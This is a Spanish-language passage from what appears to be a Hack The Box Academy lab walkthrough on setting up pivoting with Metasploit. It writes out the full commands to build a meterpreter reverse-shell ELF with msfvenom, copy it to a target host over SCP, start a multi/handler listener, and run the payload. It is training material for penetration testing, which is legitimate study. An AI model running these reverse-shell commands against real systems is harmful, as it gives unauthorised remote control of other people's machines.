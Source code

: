 
---

## Setting Up Pivoting - Metasploit

Alternativamente, podemos configurar nuestro pivote utilizando Metasploit, como se cubre en la sección [Meterpreter Tunneling & Port Forwarding](https://academy.hackthebox.com/module/158/section/1428) del módulo Pivoting. Para lograr esto, podemos hacer lo siguiente:

Primero, generamos una shell inversa en formato Elf utilizando `msfvenom`.



```r
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf > shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```

A continuación, transferimos el host al objetivo. Como tenemos SSH, podemos subirlo al objetivo usando SCP.



```r
scp -i dmz01_key shell.elf root@10.129.203.111:/tmp

shell.elf                                                                      100%  207     1.6KB/s   00:00
```

Ahora, configuraremos el `exploit/multi/handler` de Metasploit.



```r
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Ejecuta el archivo `shell.elf` en el sistema objetivo:



```r
root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```
